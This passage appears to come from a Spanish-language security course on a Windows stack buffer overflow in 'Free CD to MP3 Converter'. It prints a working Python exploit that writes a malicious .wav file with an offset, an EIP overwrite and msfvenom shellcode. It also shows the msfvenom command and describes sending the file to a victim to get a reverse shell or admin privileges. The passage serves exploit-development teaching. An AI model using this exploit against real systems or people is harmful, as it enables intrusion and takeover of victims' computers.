 ```python
    with open('exploit.wav', 'wb') as f:
        f.write(payload)
```

Una vez que ensamblamos todas estas piezas, nuestra `exploit()`función final debería verse de la siguiente manera:

```python
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
    buf = b""
    ...SNIP...
    buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
    payload = buffer + eip + nop + buf

    with open('exploit.wav', 'wb') as f:
        f.write(payload)

exploit()
```

Ahora podemos ejecutar nuestro código `F5`para `IDLE`generar el `exploit.wav`archivo. Una vez que lo hagamos, podemos ejecutar el `Free CD to MP3 Converter`programa (no necesitamos ejecutarlo en `x32dbg`) y cargar nuestro archivo en él:

![cálculo](https://academy.hackthebox.com/storage/modules/89/win32bof_calc.jpg)

Como podemos ver, nuestro programa falló, pero lo explotamos con éxito y ejecutamos nuestro código shell, que se abrió `calc.exe`.
## Obteniendo ejecución de código

El último paso sería utilizar este exploit para obtener la ejecución del código. Dado que estamos lidiando con un desbordamiento del búfer local que se ejecuta en una máquina a la que tenemos acceso a nivel de usuario, generalmente usaremos este exploit para escalar nuestros privilegios al usuario administrador si un administrador local ejecutó este programa. Otra forma de utilizar esto es escribiendo un `.wav`archivo malicioso que envíe un shell inverso. Luego compartiríamos este archivo malicioso con un usuario que utilice esta aplicación vulnerable y le pediríamos que codifique nuestro `.wav`archivo malicioso. Cuando lo hagan, recibiremos un shell inverso y obtendremos control sobre su PC.

Para realizar cualquiera de estas opciones, todo lo que tenemos que hacer es cambiar nuestro código shell para hacer otra cosa. Para la escalada de privilegios locales, podemos usar el mismo comando que usamos para `calc.exe`, pero `CMD=cmd.exe`en su lugar, use lo siguiente:

```shell-session
lilscott6x9@htb[/htb]$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'

...SNIP...
buf =  b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
buf += b"\xc9\xb1\x31\x83\xed\xfc\x31\x45\x13\x03\x39\x8c\x6e"
...SNIP...
```

